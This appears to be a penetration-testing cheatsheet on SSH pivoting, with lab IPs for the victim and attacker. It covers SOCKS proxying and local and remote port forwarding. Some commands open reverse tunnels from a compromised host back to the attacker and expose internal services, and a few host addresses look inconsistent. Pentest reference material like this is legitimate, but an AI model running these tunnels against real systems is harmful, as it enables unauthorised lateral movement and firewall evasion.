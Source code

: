 ## SSH Cheatsheet / Blackmagic

SSH has a lot of exciting features when it comes to pivoting in a pentest environment; btw most of it stemmed from devops situations :P. This is assuming you having ssh access on your victim, probably with root privilleges.

192.168.56.201 -> Victim Machine
192.168.56.202 -> Attacker Machine

The -f Commands forks the process into background and -N will not execute remote commands so you don't see a bash terminal but it runs in background.Good for crappy shells with less interaction
### 1. Socks Proxy
	ssh -D 127.0.0.1:1080 victim@192.168.56.201 -f -N
Creates a socks proxy tunnel via your local machine at local port 1080

### 2. Local Port Forwarding
	ssh -L 9999:localhost:22 victim@192.168.56.201 -f -N
    
Let's assume you have popped a box (low priv) which has ssh service running but the firewall blocks it from outside and for some wierd reason port 9999 is acessible from the outside.
You could do the above mentioned to Locally forward 22 to 9999
    
### 3. Remote Port Forwarding
The most useful commnand you will ever use in your life; execute at victim machine  

	ssh -R 6666:localhost:22 attacker@192.168.56.202
This forwards localport (ssh of the victim) to your system local port 6666 through an ssh tunnel.

You could then connct using ssh victim@localhost -p 6666 

You could do something cooler too , assuming you have a machine on the victim network 210 and you want to access it's web port directly from your attacker machine you can do this -  

	ssh -R localhost:9060:192.168.56.210:80 victim@192.168.56.201

Here you setup a secure SSH tunnel on the localport (attacker) 9060 which has a direct connection to port 80 of 210 ( a machine on victim network), cool eh ?

After that you could do
	ssh -R 7777:localhost:9060 attacker@192.168.56.201 -f -N
    
 This would remtely forward port 9060 on victim machine to your localport 7777.
 So basically you could browse port 80 on machine 192.168.56.210 from your own browser by pointing to http://localhost:7777
 
_More example coming soon. Please tweet out to @0xrnair in case you need clarifications_ ----
 

References:
1. [The Black Magic of SSH / SSH Can do that ?](https://vimeo.com/54505525)
2. [Why aren't we using SSH for everything](https://medium.com/swlh/ssh-how-does-it-even-9e43586e4ffc#.hjbor5jlu)
